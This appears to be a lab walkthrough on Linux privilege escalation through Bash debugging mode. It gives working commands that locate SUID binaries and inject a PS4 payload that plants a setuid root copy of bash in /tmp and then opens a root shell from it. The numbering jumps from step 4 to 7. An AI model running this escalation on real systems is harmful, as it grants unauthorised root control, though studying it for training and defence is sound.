




Abusing Shell Features(Debugging mode)
Prerequisite:
◇ Bash version lower than 4.4 excluded
• Bash has a debugging mode which can be enabled with the -x command line option, or by modifying the SHELLOPTS environment variable to include xtrace.
• By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set.
• When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown.
◇ In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root.
• If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited.
• If an SUID file is being executed, this command will execute with the privileges of the file owner.
1. manually locate files with the SUID or SGID bits set:
target@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

2. Run strings on the SUID file:
target@debian:~$ strings /usr/local/bin/suid-env2

This time the service(apache2) run with an absolute path
3. We can verify this
◇ with strace:
target@debian:~$ strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service

◇ with ltrace:
target@debian:~$ ltrace /usr/local/bin/suid-env2 2>&1 | grep service

This reveals that the system function is being used to execute the /usr/local/bin/suid-env2 service program(apache2)
4. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload.
This because bash versions lower than 4.4 inherit the PS4 environment variable when running as root. The PS4 environment variable is used to display the prompt while bash debugging mode is on.
The PS4 environment variable will be pre-pended to each line of the output
target@debian:~$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2

7. Run the /tmp/rootbash file with the -p command line option to get a root shell:
target@debian:~$ /tmp/rootbash -p
